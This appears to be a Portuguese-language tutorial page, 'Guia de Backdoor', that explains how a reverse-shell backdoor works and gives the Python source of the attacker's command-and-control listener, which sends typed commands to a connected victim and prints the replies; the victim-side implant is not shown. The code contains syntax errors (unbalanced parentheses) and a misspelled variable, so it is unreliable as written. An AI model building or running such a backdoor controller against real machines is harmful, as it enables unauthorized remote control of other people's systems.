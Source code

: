 ```yaml
---
title: "Guia de Backdoor"
date: 2024-12-10 14:50:00 -0300
categories: [Guia]
tags: [Backdoor, APT-Técnicas]
---
```


![imagem](https://i.pinimg.com/736x/ae/f0/c1/aef0c11a232964100d4f5b7780f2b930.jpg)

# um Guia sobre Backdoors

> [!NOTE]
> Conteúdo desse Guia
* Como funciona um Backdoor
* Como fazer um simples Backdoor usando python

# um Backdoor simples em python
Nesse exemplo demonstro um Backdoor que usa uma reverse shell e estabelece uma conexão com o alvo para a maquina
do atacante do ataque, permitindo o atacante enviar comandos e receber outputs(saídas) do alvo.

* O código usa a biblioteca socket pra fazer a comunicação entre os Hosts

# Servidor

```
import socket

#comunicação do servidor
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind('localhost', 8080)) #o ip padrão e localhost, e porta 8080
s.listen(1)

#quando estabelecida a conexão, printa conectado e o addr(ip do cliente)
while True:
    conn, addr = s.accept()
    print(f"[+]Conectado a {addr}")

#o looping que permite o servidor enviar comandos pro cliente e receber 
    while True:
        command = input("Shell > ")
        if command == 'exit':
          conn.send(b'exit')
          conn.close()
          break
        else:
            conn.send(command.encode())
            output = conn.recv(1024))
            print(outut.decode())
```
